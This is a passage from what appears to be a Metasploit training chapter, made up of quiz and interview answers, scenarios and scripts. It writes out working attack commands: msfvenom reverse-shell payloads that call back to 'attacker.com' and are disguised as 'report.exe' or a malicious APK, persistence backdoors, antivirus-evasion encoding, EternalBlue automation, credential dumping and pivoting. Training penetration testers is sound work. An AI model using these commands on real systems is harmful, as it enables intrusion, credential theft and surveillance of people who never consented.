An **exploit** is code that takes advantage of a vulnerability to gain access. A **payload** is the code that runs on the target after successful exploitation (like a reverse shell or Meterpreter).
</details>

### Question 3
**What is msfconsole?**
<details>
<summary>Click to reveal answer</summary>

msfconsole is the primary command-line interface for Metasploit Framework. It provides an interactive shell for selecting and running exploits, configuring options, and managing sessions.
</details>

### Question 4
**What is Meterpreter?**
<details>
<summary>Click to reveal answer</summary>

Meterpreter is an advanced, stealthy payload that runs in memory without writing to disk. It provides extensive post-exploitation capabilities like file system access, screenshot capture, keylogging, and privilege escalation.
</details>

### Question 5
**What does RHOSTS mean in Metasploit?**
<details>
<summary>Click to reveal answer</summary>

RHOSTS (Remote Hosts) is the option that specifies the target IP address or hostname. It can be a single IP, multiple IPs, CIDR range, or a file containing target list.
</details>

### Question 6
**What is LHOST?**
<details>
<summary>Click to reveal answer</summary>

LHOST (Local Host) is the IP address of your attacking machine where the payload will connect back to. Used in reverse shells and Meterpreter sessions.
</details>

### Question 7
**What is the difference between bind and reverse shell?**
<details>
<summary>Click to reveal answer</summary>

**Bind shell**: Target listens on a port; attacker connects to it.
**Reverse shell**: Target connects back to attacker's listening port. Reverse shells work better through firewalls and NAT.
</details>

### Question 8
**How do you search for exploits in msfconsole?**
<details>
<summary>Click to reveal answer</summary>

Use the `search` command: `search apache`, `search type:exploit platform:windows smb`, `search cve:2021`
</details>

### Question 9
**What is msfvenom used for?**
<details>
<summary>Click to reveal answer</summary>

msfvenom generates standalone payloads (like malicious executables, APKs, or scripts) that can be delivered independently of msfconsole. It combines payload generation and encoding.
</details>

### Question 10
**What is a handler in Metasploit?**
<details>
<summary>Click to reveal answer</summary>

A handler (exploit/multi/handler) is a listener that catches incoming connections from payloads. It's required when using standalone payloads generated by msfvenom.
</details>

### Question 11
**How do you list active sessions?**
<details>
<summary>Click to reveal answer</summary>

Use `sessions -l` to list all active sessions, `sessions -i <id>` to interact with a specific session, `sessions -k <id>` to kill a session.
</details>

### Question 12
**What are auxiliary modules?**
<details>
<summary>Click to reveal answer</summary>

Auxiliary modules are non-exploit tools for scanning, fuzzing, and information gathering. Examples: port scanners, service fingerprinters, brute-force tools.
</details>

### Question 13
**What is the `use` command for?**
<details>
<summary>Click to reveal answer</summary>

The `use` command selects a module to work with: `use exploit/windows/smb/ms17_010_eternalblue`. After selection, you can configure and run the module.
</details>

### Question 14
**What does `show options` display?**
<details>
<summary>Click to reveal answer</summary>

`show options` displays all configurable options for the selected module, including required settings (RHOSTS, LHOST, etc.) and their current values.
</details>

### Question 15
**How do you upgrade a shell to Meterpreter?**
<details>
<summary>Click to reveal answer</summary>

Use `sessions -u <session_id>` to upgrade a basic shell session to Meterpreter, or use the post module: `use post/multi/manage/shell_to_meterpreter`
</details>

---

## 🎯 INTERVIEW QUESTIONS

### Q1: What are the main components of Metasploit Framework?

**Answer:**
1. **msfconsole** - Primary CLI interface
2. **msfvenom** - Payload generator
3. **Exploits** - Code that exploits vulnerabilities
4. **Payloads** - Code executed after exploitation
5. **Auxiliary** - Scanners, fuzzers, tools
6. **Post** - Post-exploitation modules
7. **Encoders** - Payload obfuscation
8. **NOPS** - No-operation sleds for buffer overflows
9. **Database** - PostgreSQL backend for data storage

### Q2: Explain the Metasploit exploitation workflow.

**Answer:**
```
1. Reconnaissance
   └── Gather information about target

2. Search for exploit
   └── msfconsole → search <vulnerability>

3. Select exploit
   └── use exploit/path/to/exploit

4. Configure options
   └── set RHOSTS target_ip
   └── set LHOST attacker_ip
   └── set PAYLOAD payload_name

5. Execute exploit
   └── exploit or run

6. Post-exploitation
   └── Meterpreter commands
   └── Post modules

7. Cleanup
   └── Remove traces
   └── Close sessions
```

### Q3: What are staged vs stageless payloads?

**Answer:**
**Staged Payloads:**
- Small initial stager downloads full payload
- Format: `windows/meterpreter/reverse_tcp`
- Pros: Smaller initial size, harder to detect
- Cons: Requires network connectivity after initial exploitation

**Stageless Payloads:**
- Complete payload in one file
- Format: `windows/meterpreter_reverse_tcp`
- Pros: Works when network is restricted after initial access
- Cons: Larger file size, easier to detect

### Q4: How does Metasploit handle sessions?

**Answer:**
Metasploit uses session management for:
- **Listing**: `sessions -l` shows all active sessions
- **Interaction**: `sessions -i <id>` connects to session
- **Backgrounding**: `background` or Ctrl+Z
- **Killing**: `sessions -k <id>` terminates session
- **Upgrading**: `sessions -u <id>` upgrades shell to Meterpreter

Sessions persist until explicitly closed or connection lost. Multiple sessions can run simultaneously.

### Q5: What is the Metasploit database and why use it?

**Answer:**
The database (PostgreSQL) stores:
- **Workspaces** - Separate project environments
- **Hosts** - Discovered targets
- **Services** - Running services on hosts
- **Credentials** - Found usernames/passwords
- **Loot** - Captured data
- **Tasks** - Running jobs

Benefits:
- Organize penetration tests
- Track progress across team
- Import/export scan results
- Correlate data from multiple tools

Setup: `msfdb init` → `db_connect`

### Q6: How do you create a persistent backdoor with Metasploit?

**Answer:**
```bash
# Method 1: Persistence module
meterpreter > run persistence -U -i 10 -p 4444 -r <attacker_ip>

# Method 2: metsvc (older)
meterpreter > run metsvc

# Method 3: Registry persistence
meterpreter > run post/windows/manage/persistence

# Method 4: Scheduled task
meterpreter > execute -f cmd.exe -i -H
C:\> schtasks /create /tn "Update" /tr "cmd.exe /c <payload>" /sc onstart /ru SYSTEM
```

Note: Always document and remove persistence after testing!

### Q7: What are resource scripts in Metasploit?

**Answer:**
Resource scripts automate Metasploit commands:

```bash
# Create resource script
cat > auto_exploit.rc << 'EOF'
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j
EOF

# Run resource script
msfconsole -r auto_exploit.rc

# Or within msfconsole
msf6 > resource auto_exploit.rc
```

Useful for:
- Automating repetitive tasks
- Documenting attack paths
- Running scheduled tests

### Q8: How do you pivot through a compromised system?

**Answer:**
Pivoting extends access to networks behind compromised host:

```bash
# Add route through session
meterpreter > run post/multi/manage/autoroute

# Or manually
msf6 > route add 10.0.0.0/24 <session_id>

# Verify routes
msf6 > route print

# Use through pivot
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 10.0.0.0/24
msf6 > run
```

Enables scanning and exploitation of networks otherwise inaccessible.

### Q9: What encoding options are available in msfvenom?

**Answer:**
```bash
# List encoders
msfvenom --list encoders

# Common encoders
-e x86/shikata_ga_nai    # Most popular, polymorphic
-e x86/call4_dword_xor   # XOR based
-e x86/countdown         # Countdown technique
-e cmd/powershell_base64 # PowerShell encoding

# Multiple iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x \
    -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe

# Note: Modern AV detects most encoded payloads
# Custom payloads work better
```

### Q10: What are the legal considerations when using Metasploit?

**Answer:**
**Legal Requirements:**
- Written authorization required
- Defined scope and timeline
- Written rules of engagement
- Data handling agreements

**Documentation:**
- Log all activities
- Screenshot evidence
- Preserve chain of custody
- Document all findings

**Ethical Guidelines:**
- Report all vulnerabilities
- Help remediate issues
- No data exfiltration
- Clean up after testing

**Consequences of unauthorized use:**
- Criminal prosecution
- Civil lawsuits
- Professional sanctions
- Imprisonment

---

## 🔥 REAL-WORLD SCENARIOS

### Scenario 1: Network Penetration Test

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  NETWORK PENETRATION TEST                                 ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Client needs network security assessment. Scope includes 100 hosts.     ║
║  Need to find and exploit vulnerabilities.                               ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Setup workspace:                                                      ║
║     msf6 > workspace -a client_test                                      ║
║     msf6 > db_import nmap_scan.xml                                       ║
║                                                                           ║
║  2. Identify targets:                                                     ║
║     msf6 > hosts                                                         ║
║     msf6 > services                                                      ║
║                                                                           ║
║  3. Exploit SMB vulnerability:                                            ║
║     msf6 > use exploit/windows/smb/ms17_010_eternalblue                 ║
║     msf6 > set RHOSTS file:targets.txt                                  ║
║     msf6 > set PAYLOAD windows/meterpreter/reverse_tcp                  ║
║     msf6 > exploit -j                                                    ║
║                                                                           ║
║  4. Post-exploitation:                                                    ║
║     meterpreter > getsystem                                              ║
║     meterpreter > run post/windows/gather/hashdump                       ║
║                                                                           ║
║  RESULT: Compromised 15 systems, obtained domain admin                  ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 2: Web Application Testing

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  WEB APPLICATION TESTING                                  ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Web server suspected vulnerable. Apache Tomcat running on port 8080.    ║
║  Need to test for known vulnerabilities.                                 ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Scan service:                                                         ║
║     msf6 > use auxiliary/scanner/http/tomcat_mgr_login                  ║
║     msf6 > set RHOSTS target.com                                        ║
║     msf6 > run                                                           ║
║                                                                           ║
║  2. Exploit Tomcat manager:                                               ║
║     msf6 > use exploit/multi/http/tomcat_mgr_upload                     ║
║     msf6 > set RHOSTS target.com                                        ║
║     msf6 > set HttpUsername admin                                       ║
║     msf6 > set HttpPassword admin                                       ║
║     msf6 > set PAYLOAD java/meterpreter/reverse_tcp                     ║
║     msf6 > exploit                                                       ║
║                                                                           ║
║  3. Post-exploitation:                                                    ║
║     meterpreter > shell                                                  ║
║     $ whoami                                                             ║
║     $ cat /etc/shadow                                                    ║
║                                                                           ║
║  RESULT: Gained shell access, escalated to root                         ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 3: Client-Side Attack

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                    CLIENT-SIDE ATTACK                                     ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Social engineering test. Need to create convincing payload for         ║
║  client exploitation.                                                    ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Generate payload:                                                     ║
║     msfvenom -p windows/meterpreter/reverse_tcp \                       ║
║       LHOST=attacker.com LPORT=443 \                                    ║
║       -e x86/shikata_ga_nai -i 3 \                                      ║
║       -f exe -o report.exe                                               ║
║                                                                           ║
║  2. Setup listener:                                                       ║
║     msf6 > use exploit/multi/handler                                    ║
║     msf6 > set PAYLOAD windows/meterpreter/reverse_tcp                  ║
║     msf6 > set LHOST 0.0.0.0                                            ║
║     msf6 > set LPORT 443                                                ║
║     msf6 > exploit                                                       ║
║                                                                           ║
║  3. Deliver via phishing email                                           ║
║                                                                           ║
║  4. Post-exploitation when clicked:                                       ║
║     meterpreter > getuid                                                ║
║     meterpreter > getsystem                                             ║
║     meterpreter > run post/windows/gather/enum_applications             ║
║                                                                           ║
║  RESULT: Obtained access through user interaction                       ║
║  Documented user awareness gap                                          ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 4: Post-Exploitation Enumeration

```
╔═══════════════════════════════════════════════════════════════════════════╗
║              POST-EXPLOITATION ENUMERATION                                ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Initial foothold obtained. Windows 10 workstation.                      ║
║  Need to enumerate and escalate privileges.                              ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. System enumeration:                                                   ║
║     meterpreter > sysinfo                                               ║
║     meterpreter > run post/windows/gather/enum_system                   ║
║     meterpreter > run post/windows/gather/enum_applications             ║
║                                                                           ║
║  2. Privilege enumeration:                                                ║
║     meterpreter > getuid                                                ║
║     meterpreter > run post/multi/recon/local_exploit_suggester          ║
║     # Returns list of potential privilege escalation exploits            ║
║                                                                           ║
║  3. Escalate privileges:                                                  ║
║     meterpreter > background                                            ║
║     msf6 > use exploit/windows/local/bypassuac_fodhelper                ║
║     msf6 > set SESSION 1                                                ║
║     msf6 > exploit                                                       ║
║                                                                           ║
║  4. Dump credentials:                                                     ║
║     meterpreter > getsystem                                             ║
║     meterpreter > run post/windows/gather/smart_hashdump                ║
║                                                                           ║
║  RESULT: Escalated to SYSTEM, dumped domain credentials                 ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

### Scenario 5: Mobile Device Testing

```
╔═══════════════════════════════════════════════════════════════════════════╗
║                  MOBILE DEVICE TESTING                                    ║
╠═══════════════════════════════════════════════════════════════════════════╣
║                                                                           ║
║  SITUATION:                                                               ║
║  Android device testing authorized. Need to create and deploy payload.   ║
║                                                                           ║
║  APPROACH:                                                                ║
║  1. Generate Android payload:                                             ║
║     msfvenom -p android/meterpreter/reverse_tcp \                       ║
║       LHOST=attacker.com LPORT=4444 \                                   ║
║       -o malicious.apk                                                   ║
║                                                                           ║
║  2. Setup listener:                                                       ║
║     msf6 > use exploit/multi/handler                                    ║
║     msf6 > set PAYLOAD android/meterpreter/reverse_tcp                  ║
║     msf6 > set LHOST 0.0.0.0                                            ║
║     msf6 > set LPORT 4444                                               ║
║     msf6 > exploit                                                       ║
║                                                                           ║
║  3. Post-exploitation:                                                    ║
║     meterpreter > dump_contacts                                         ║
║     meterpreter > dump_sms                                              ║
║     meterpreter > dump_calllog                                          ║
║     meterpreter > geolocate                                             ║
║     meterpreter > webcam_snap                                           ║
║                                                                           ║
║  RESULT: Demonstrated mobile device vulnerabilities                     ║
║  Extracted sensitive user data                                          ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝
```

---

## 📊 MERMAID DIAGRAMS - Metasploit Flow



---

## ⚡ TOOL CHEATSHEET

| Command | Purpose |
|---------|---------|
| `msfconsole` | Start framework |
| `search <term>` | Find exploits |
| `use <module>` | Select module |
| `set RHOSTS <ip>` | Set target |
| `set PAYLOAD <p>` | Set payload |
| `exploit` | Launch attack |
| `sessions -l` | List sessions |
| `msfvenom -p <payload>` | Generate payload |

---

## 🔧 TOOL COMPARISON

| Framework | Type |
|-----------|------|
| Metasploit | Exploitation |
| Cobalt Strike | Red team |
| Empire | Post-exploitation |

---

## 🚀 CHALLENGES

1. Exploit vulnerable service
2. Get Meterpreter session
3. Post-exploitation tasks

⚠️ **LEGAL:** Test only authorized systems!

---

## 📖 GLOSSARY

| Term | Definition |
|------|------------|
| Exploit | Vulnerability code |
| Payload | Malicious code |
| Meterpreter | Advanced payload |
| Shell | Command access |
| LHOST | Your IP |
| RHOST | Target IP |

---

## 💼 CAREER: Penetration Tester

**Salary:** $80K-$180K
**Certs:** OSCP, OSCE, CRTO

---

## ⚠️ LEGAL DISCLAIMER

**Metasploit for authorized testing ONLY!**
Unauthorized exploitation is a federal crime.

---

## 🛡️ DEFENSIVE MEASURES

- Patch management
- Network segmentation
- EDR deployment
- Regular vulnerability scanning

---

## ⚠️ SECURITY BEST PRACTICES

### ✅ DO's

| Practice | Description |
|----------|-------------|
| ✅ Get written authorization | Required before any testing |
| ✅ Define scope clearly | IPs, systems, techniques allowed |
| ✅ Use workspaces | Organize different projects |
| ✅ Document everything | Commands, screenshots, findings |
| ✅ Clean up persistence | Remove all backdoors after testing |
| ✅ Report findings | Responsible disclosure |
| ✅ Test in lab first | Practice before production |
| ✅ Use resource scripts | Document attack paths |
| ✅ Monitor sessions | Track active connections |
| ✅ Secure extracted data | Handle credentials responsibly |

### ❌ DON'Ts

| Practice | Risk |
|----------|------|
| ❌ Test without authorization | Illegal and unethical |
| ❌ Leave persistence running | Ongoing access without consent |
| ❌ Ignore cleanup | Evidence left behind |
| ❌ Over-exploit | May crash systems |
| ❌ Share exploits publicly | Help malicious actors |
| ❌ Skip documentation | No proof of testing |
| ❌ Use production payloads | May damage systems |
| ❌ Forget to check for AV | Payloads detected |
| ❌ Leave sessions open | Resource waste |
| ❌ Exceed scope | Legal liability |

---

## 📊 ARCHITECTURE DIAGRAMS

### Metasploit Framework Architecture

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT FRAMEWORK ARCHITECTURE                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   INTERFACES                                                                │
│   ┌────────────┐  ┌────────────┐  ┌────────────┐  ┌────────────┐          │
│   │ msfconsole │  │  msfvenom  │  │   msfrpc   │  │  msfgui    │          │
│   │  (Primary) │  │ (Payload)  │  │   (RPC)    │  │  (GUI)     │          │
│   └──────┬─────┘  └──────┬─────┘  └──────┬─────┘  └────────────┘          │
│          │               │               │                                  │
│          └───────────────┴───────────────┘                                  │
│                          │                                                  │
│                          ▼                                                  │
│   MODULES                                                                   │
│   ┌────────────┐  ┌────────────┐  ┌────────────┐  ┌────────────┐          │
│   │  Exploits  │  │  Payloads  │  │ Auxiliary  │  │    Post    │          │
│   │  (2000+)   │  │  (1000+)   │  │  (1500+)   │  │   (500+)   │          │
│   └────────────┘  └────────────┘  └────────────┘  └────────────┘          │
│                                                                             │
│   ┌────────────┐  ┌────────────┐                                           │
│   │  Encoders  │  │    NOPS    │                                           │
│   │   (50+)    │  │   (10+)    │                                           │
│   └────────────┘  └────────────┘                                           │
│                                                                             │
│   DATABASE                                                                  │
│   ┌────────────────────────────────────────────────────────────────────┐   │
│   │                    PostgreSQL Backend                               │   │
│   │   Workspaces │ Hosts │ Services │ Credentials │ Loot │ Tasks       │   │
│   └────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Exploitation Workflow

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                    EXPLOITATION WORKFLOW                                    │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   ┌─────────┐    ┌─────────┐    ┌─────────┐    ┌─────────┐    ┌─────────┐ │
│   │ SEARCH  │───►│  USE    │───►│ CONFIG  │───►│EXPLOIT  │───►│ SESSION │ │
│   │         │    │         │    │         │    │         │    │         │ │
│   │ Find    │    │ Select  │    │ Set     │    │ Run     │    │ Meter-  │ │
│   │ exploit │    │ module  │    │ options │    │ attack  │    │ preter  │ │
│   └─────────┘    └─────────┘    └─────────┘    └─────────┘    └────┬────┘ │
│                                                                      │      │
│                          ┌───────────────────────────────────────────┤      │
│                          ▼                       ▼                   ▼      │
│                   ┌────────────┐        ┌────────────┐       ┌──────────┐ │
│                   │Privilege   │        │   Post     │       │ Pivoting │ │
│                   │Escalation  │        │   Modules  │       │          │ │
│                   └────────────┘        └────────────┘       └──────────┘ │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Payload Types

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                        PAYLOAD TYPES                                        │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│   ┌───────────────────────────────────┐  ┌───────────────────────────────┐ │
│   │          BIND PAYLOADS            │  │       REVERSE PAYLOADS        │ │
│   │                                   │  │                               │ │
│   │  Target listens on port           │  │  Target connects to attacker  │ │
│   │  Attacker connects to target      │  │  Works through NAT/firewall   │ │
│   │                                   │  │                               │ │
│   │  windows/meterpreter/bind_tcp    │  │  windows/meterpreter/reverse_tcp│ │
│   └───────────────────────────────────┘  └───────────────────────────────┘ │
│                                                                             │
│   ┌───────────────────────────────────┐  ┌───────────────────────────────┐ │
│   │         STAGED PAYLOADS           │  │      STAGELESS PAYLOADS       │ │
│   │                                   │  │                               │ │
│   │  Small stager, downloads full     │  │  Complete payload in one file │ │
│   │  Smaller size, needs network      │  │  Larger size, no network need │ │
│   │                                   │  │                               │ │
│   │  windows/meterpreter/reverse_tcp │  │  windows/meterpreter_reverse_tcp│ │
│   └───────────────────────────────────┘  └───────────────────────────────┘ │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## 🔗 RELATED CHAPTERS

| Chapter | Title | Relevance |
|---------|-------|-----------|
| Chapter 31 | Hydra Password Cracking | Credential testing |
| Chapter 33 | John the Ripper | Hash cracking |
| Chapter 34 | SQLMap Basics | Database exploitation |
| Chapter 36 | PhoneSploit & ADB | Mobile exploitation |
| Chapter 38 | WiFi Security Tools | Network access |
| Chapter 43 | Exploitation Basics | Exploit fundamentals |
| Chapter 44 | Post-Exploitation | Meterpreter techniques |

---

## 🏆 BONUS ADVANCED CONTENT

### Technique 1: Automated Exploitation with Resource Scripts

```bash
# Create comprehensive auto-exploit script
cat > auto_pentest.rc << 'EOF'
# Metasploit Auto-Pentest Script
# Author: Security Professional

# Setup workspace
workspace -a auto_assessment
setg LHOST 192.168.1.50
setg LPORT 4444

# Load database
db_import /path/to/nmap_scan.xml

# Run auxiliary scans
use auxiliary/scanner/smb/smb_version
run
hosts -R

# Try common exploits
use exploit/windows/smb/ms17_010_eternalblue
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j

# Wait for sessions
sleep 30

# Run post modules on all sessions
sessions -l
use post/windows/gather/enum_system
set SESSION -1
run

# Save results
db_export -f xml /path/to/results.xml
EOF

# Run the script
msfconsole -q -r auto_pentest.rc
```

### Technique 2: Custom Meterpreter Script

```ruby
# Create custom Meterpreter script
# Save to: /usr/share/metasploit-framework/scripts/meterpreter/custom_enum.rb

def custom_enum(session)
    print_status("Starting Custom Enumeration...")
    
    # Get system info
    sysinfo = session.sys.config.sysinfo
    print_good("Computer: #{sysinfo['Computer']}")
    print_good("OS: #{sysinfo['OS']}")
    
    # Get user info
    user = session.sys.config.getuid
    print_good("User: #{user}")
    
    # Check for admin
    if session.sys.config.is_admin?
        print_good("Running as ADMIN!")
    else
        print_warning("Not admin - consider privilege escalation")
    end
    
    # List running processes
    print_status("Interesting processes:")
    session.sys.process.processes.each do |proc|
        if proc['name'].downcase.include?('av') or 
           proc['name'].downcase.include?('firewall')
            print_warning("#{proc['name']} (PID: #{proc['pid']})")
        end
    end
    
    print_status("Enumeration complete!")
end
```

### Technique 3: Advanced Pivoting Setup

```bash
# Multi-hop pivoting setup
# Scenario: Target network behind multiple firewalls

# Hop 1: Initial compromise
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.168.1.100
msf6 > exploit
meterpreter > run post/multi/manage/autoroute

# Hop 2: Through first pivot
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 10.0.0.0/24
msf6 > run

# Setup SOCKS proxy
msf6 > use auxiliary/server/socks_proxy
msf6 > set VERSION 4a
msf6 > run

# Configure proxychains
echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

# Use external tools through pivot
proxychains nmap -sT 10.0.0.100
```

---

## 📝 CHAPTER SUMMARY CHECKLIST

- [ ] Installed Metasploit via proot-distro
- [ ] Mastered msfconsole basic commands
- [ ] Understood module types (exploits, payloads, auxiliary)
- [ ] Learned search and use commands
- [ ] Configured RHOSTS and LHOST options
- [ ] Created payloads with msfvenom
- [ ] Set up exploit/multi/handler
- [ ] Used Meterpreter post-exploitation commands
- [ ] Completed all practice exercises
- [ ] Understood legal considerations

---

## 🎮 INTERACTIVE QUIZ

Test your Metasploit knowledge! Click to reveal answers.

<details>
<summary><b>Q1: What is the primary interface for Metasploit Framework?</b></summary>

Answer: **`msfconsole`**

```bash
msfconsole
```
The msfconsole provides an interactive command-line interface for using all Metasploit features including exploits, payloads, and auxiliary modules.
</details>

<details>
<summary><b>Q2: Which command searches for Metasploit modules?</b></summary>

Answer: **`search` command**

```bash
msf6 > search ssh
msf6 > search type:exploit platform:windows smb
msf6 > search cve:2017
```
Search supports filters like type, platform, and CVE numbers.
</details>

<details>
<summary><b>Q3: What command is used to select a module?</b></summary>

Answer: **`use` command**

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
The prompt changes to show the selected module.
</details>

<details>
<summary><b>Q4: What are RHOSTS and LHOST in Metasploit?</b></summary>

Answer: **Remote Host and Local Host**

- **RHOSTS**: Target IP address(es) - the system being attacked
- **LHOST**: Your IP address - where the reverse connection connects back to

```bash
msf6 > set RHOSTS 192.168.1.100
msf6 > set LHOST 192.168.1.50
```
</details>

<details>
<summary><b>Q5: How do you display module options?</b></summary>

Answer: **`show options` command**

```bash
msf6 exploit(module) > show options
msf6 exploit(module) > show advanced
msf6 exploit(module) > show payloads
```
</details>

<details>
<summary><b>Q6: What is the command to generate payloads outside msfconsole?</b></summary>

Answer: **`msfvenom`**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe -o payload.exe
```
msfvenom creates standalone payloads that can be deployed separately.
</details>

<details>
<summary><b>Q7: What is exploit/multi/handler used for?</b></summary>

Answer: **Catching reverse shell connections**

```bash
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.1.50
msf6 > set LPORT 4444
msf6 > exploit
```
Handler listens for incoming connections from payloads generated by msfvenom.
</details>

<details>
<summary><b>Q8: What is Meterpreter?</b></summary>

Answer: **Advanced payload with extensive features**

Meterpreter is a Metasploit payload that provides:
- Interactive shell access
- File system navigation
- Screenshot capture
- Keylogging
- Privilege escalation
- Persistence mechanisms

```bash
meterpreter > sysinfo
meterpreter > getuid
meterpreter > shell
```
</details>

<details>
<summary><b>Q9: How do you list active sessions?</b></summary>

Answer: **`sessions -l` command**

```bash
msf6 > sessions -l          # List sessions
msf6 > sessions -i 1        # Interact with session 1
msf6 > sessions -k 1        # Kill session 1
```
</details>

<details>
<summary><b>Q10: What command upgrades a shell to Meterpreter?</b></summary>

Answer: **`sessions -u` command**

```bash
msf6 > sessions -l
msf6 > sessions -u 1        # Upgrade session 1 to Meterpreter
```
Or within a session:
```bash
meterpreter > run post/multi/manage/shell_to_meterpreter
```
</details>

<details>
<summary><b>Q11: What are the main module types in Metasploit?</b></summary>

Answer: **Exploits, Payloads, Auxiliary, Post, Encoders, Nops**

| Module | Purpose |
|--------|---------|
| Exploits | Vulnerability exploitation |
| Payloads | Code executed on target |
| Auxiliary | Scanners, fuzzers, tools |
| Post | Post-exploitation modules |
| Encoders | Payload encoding |
| Nops | No-operation sleds |
</details>

<details>
<summary><b>Q12: How do you background a Meterpreter session?</b></summary>

Answer: **`background` command or Ctrl+Z**

```bash
meterpreter > background
msf6 > sessions -i 1        # Return to session
```
</details>

<details>
<summary><b>Q13: What is the difference between bind and reverse shells?</b></summary>

Answer: **Direction of connection**

| Type | Direction | Use Case |
|------|-----------|----------|
| **Bind** | Target listens, you connect | Target has public IP |
| **Reverse** | Target connects back to you | Target behind NAT/firewall |

```bash
# Reverse shell
set payload windows/meterpreter/reverse_tcp

# Bind shell
set payload windows/meterpreter/bind_tcp
```
</details>

<details>
<summary><b>Q14: How do you check if a target is vulnerable before exploitation?</b></summary>

Answer: **`check` command**

```bash
msf6 exploit(module) > check
```
Not all modules support check, but it's useful for safe testing when available.
</details>

<details>
<summary><b>Q15: What is the purpose of encoders in Metasploit?</b></summary>

Answer: **Payload obfuscation for AV evasion**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x \
         -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe
```
Encoders modify payload signatures to avoid detection, though modern AV is very effective.
</details>

---

## 🎯 INTERVIEW QUESTIONS

### Q1: Explain Metasploit Framework architecture and its components.

**Answer:**

**Architecture Overview:**

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    METASPLOIT FRAMEWORK ARCHITECTURE                     │
├─────────────────────────────────────────────────────────────────────────┤
│                                                                          │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                      INTERFACES                                  │   │
│   │   msfconsole │ msfvenom │ msfcli │ msfgui                       │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                   │                                      │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                       MODULES                                    │   │
│   │   Exploits │ Payloads │ Auxiliary │ Post │ Encoders │ NOPS      │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                   │                                      │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                     TOOLS & UTILITIES                            │   │
│   │   msfvenom │ msfencode │ msfpayload │ msfscan                   │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                   │                                      │
│   ┌─────────────────────────────────────────────────────────────────┐   │
│   │                      DATABASE (PostgreSQL)                        │   │
│   │   Workspaces │ Hosts │ Services │ Credentials │ Loot            │   │
│   └─────────────────────────────────────────────────────────────────┘   │
│                                                                          │
└─────────────────────────────────────────────────────────────────────────┘
```

**Components:**

1. **msfconsole** - Primary CLI interface
2. **Modules** - Exploits, payloads, auxiliary, post, encoders, nops
3. **Tools** - msfvenom, msfencode, etc.
4. **Database** - PostgreSQL for data storage
5. ** Rex** - Ruby Extension library for tasks

---

### Q2: What are the different payload types in Metasploit?

**Answer:**

**Payload Categories:**

| Type | Description | Example |
|------|-------------|---------|
| **Singles** | Self-contained payload | windows/shell/bind_tcp |
| **Stagers** | Small initial code | reverse_tcp, bind_tcp |
| **Stages** | Downloaded after stager | meterpreter |

**Connection Types:**

**Bind Payloads:**
```
Target listens on port → Attacker connects
Use when: Target has accessible IP
```

**Reverse Payloads:**
```
Target connects back → Attacker listens
Use when: Target behind NAT/firewall
```

**Staged vs Stageless:**

| Staged | Stageless |
|--------|-----------|
| Smaller initial size | Larger single file |
| Multiple components | Single executable |
| `reverse_tcp` | `reverse_tcp_allports` |
| Better for memory constraints | Better for unstable networks |

**Common Payloads:**
```bash
windows/meterpreter/reverse_tcp      # Staged reverse
windows/meterpreter/bind_tcp         # Staged bind
windows/shell/reverse_tcp            # Basic shell
android/meterpreter/reverse_tcp      # Android payload
linux/x86/meterpreter/reverse_tcp    # Linux payload
```

---

### Q3: Explain the exploitation workflow in Metasploit.

**Answer:**

**Standard Workflow:**

```bash
# Step 1: Start msfconsole
msfconsole

# Step 2: Search for exploit
msf6 > search type:exploit platform:windows smb

# Step 3: Select exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# Step 4: Show options
